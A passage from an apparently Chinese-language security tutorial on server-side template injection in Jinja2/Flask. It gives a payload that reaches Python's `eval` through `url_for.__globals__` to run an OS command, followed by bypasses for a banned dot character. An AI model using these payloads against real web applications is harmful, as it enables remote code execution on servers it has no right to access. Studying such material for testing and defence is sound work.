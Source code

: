 [![在这里插入图片描述](assets/1698900310-6677a788b0fb6e926a874a5649c1e721.png)](https://storage.tttang.com/media/attachment/2022/08/14/78971b0e-8acd-440d-817d-de3e415bf5a5.png)  
还有一个比较厉害的模块，就是`__builtins__`,它里面有`eval()`等函数，我们可以也利用它来进行 RCE  
它的 payload 是

```plain
{{url_for.__globals__['__builtins__']['eval']("__import__('os').popen('dir').read()")}}
```

[![在这里插入图片描述](assets/1698900310-02e4a2ba4a41efb552b99b7396a2cc6e.png)](https://storage.tttang.com/media/attachment/2022/08/14/dcf10253-80ed-454d-8a85-72da3b87d079.png)

# [SSTI 常见绕过方式](#toc_ssti_3)

## [绕过。](#toc__5)

当。被 ban 时，有以下几种绕过方式

```plain
1、用[]代替.，举个例子
{{"".__class__}}={{""['__class']}}
2、用 attr() 过滤器绕过，举个例子
{{"".__class__}}={{""|attr('__class__')}}
```

## [绕过\_](#toc__)
